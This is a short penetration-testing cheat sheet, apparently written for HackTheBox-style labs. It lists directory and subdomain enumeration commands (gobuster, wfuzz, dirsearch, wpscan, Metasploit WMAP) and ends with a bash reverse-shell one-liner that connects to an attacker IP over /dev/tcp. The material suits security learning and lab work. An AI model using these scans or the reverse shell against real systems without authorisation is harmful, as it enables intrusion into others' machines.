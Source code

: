 ## Directory Discovery

Word lists are at `/usr/share/wordlists` (In KALI)

```
gobuster dir -u URL:port -t threads -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
```

## Search for subdomains

gobuster

```
gobuster vhost -u https://NAME.htb -w /opt/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -k -t 40
```

wfuzz

```
wfuzz -w /opt/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -u URL -v -c -H "Host:FUZZ.NAME.htb" --hw 26
```

Search for PHP files

```
gobuster dir -u http://IP/ -t 80 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php
```

Backup: (Can get through things ^^^ can't)

```
dirsearch -u http://ipaddress
```

```
dirb http://IP/
```

-X .sh - extensions to search

-w /path/to/wordlist - wordlist


## Replicate website on local storage

```
wget http://ip/ -r
```
https:
```
wget http://ip/ -r --no-check-certificate
```

## Wordpress vulnerability checker

```
wpscan --url URL
```

--plugin-detection aggressive    -   Takes a long time, but digs up good dirt


## WMAP - Map website tool

Load module in msfconsole
```
load wmap
```

Add target site
```
wmap_sites -a http://IP
```
And
```
wmap_targets -t http://ip-address
```
Execute
```
wmap_run -e
```


## Reverse Shell through encded URL

```
bash -c 'bash -i >& /dev/tcp/10.10.14.14/9001 0>&1'
```

